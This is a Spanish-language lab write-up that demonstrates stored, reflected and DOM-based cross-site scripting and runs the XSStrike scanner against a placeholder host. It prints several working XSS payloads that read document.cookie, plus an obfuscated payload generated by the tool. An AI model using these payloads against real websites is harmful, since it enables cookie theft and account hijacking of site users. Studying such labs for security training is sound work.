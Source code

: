 # Laboratorio: Stored XSS 📁

1. Vamos a la página web

<p align="center">
    <img src="./assets/01-Web.PNG" width=370>
</p>

---

2. Usaremos el **payload** **`<script>alert(document.cookie)</script>`**
<p align="center">
    <img src="./assets/02-Stored.PNG" width=395>
</p>

---

❕ Le **llamamos `STORED`** ya que si recargamos la página la alerta se nos desplegará nuevamente, esto, porque se almacenó en la base de datos.

# Laboratorio: Reflected XSS 👥

1. Usaremos el payload **`<img src="" onerror=alert(document.cookie)>`**
<p align="center">
    <img src="./assets/03-Reflected.PNG" width=395>
</p>

❕ Le **llamamos `REFLECTED`** ya que no se almacena en la base de datos, sin embargo, la consulta y ejecuta la acción, en este caso la web toma un parámetro de entrada de un usuario y luego lo refleja directamente en la página sin realizar una adecuada validación o sanitización
* **URL:** `http://<IP>:<Port>/index.php?task=<img src="" onerror=alert(document.cookie)>`

# Laboratorio: DOM XSS 🍾

1. El payload que usaremos es **`<img src="" onerror=alert(document.cookie)>`**

<p align="center">
    <img src="./assets/04-DOM.PNG" width=395>
</p>

❕ Estas únicamente alterar al **estructura (DOM)** de la página web, temporalmente, no consulta al **backend** y si recargamos la página no veremos la alerta nuevamente.

# Laboratorio: XSS Discovery 🎲

1. Usaremos la herramienta [XSStrike](https://github.com/s0md3v/XSStrike)
* `python3 xsstrike.py -u "http://<IP>:<Port>/?fullname=d3v&username=d3v&password=d3v&email=d3v"`

**Output**
```java
[!] Testing parameter: email 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3070 
------------------------------------------------------------
[+] Payload: <A%0aOnmOUsEOVER%0a=%0a[8].find(confirm)>v3dm0s
```

* El parámetro vulnerable es **`email`** y el tipo de XSS es **`reflected`**